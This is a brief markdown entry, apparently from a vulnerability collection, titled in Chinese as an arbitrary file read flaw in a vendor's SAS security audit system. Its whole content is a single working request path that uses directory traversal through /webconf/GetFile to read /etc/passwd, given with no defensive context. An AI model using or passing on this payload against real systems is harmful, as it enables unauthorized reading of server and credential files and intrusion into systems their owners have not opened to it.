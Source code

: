 ## 某盟sas安全审计系统任意文件读取漏洞
```
/webconf/GetFile/indexpath=../../../../../../../../../../../../../../etc/passwd
```
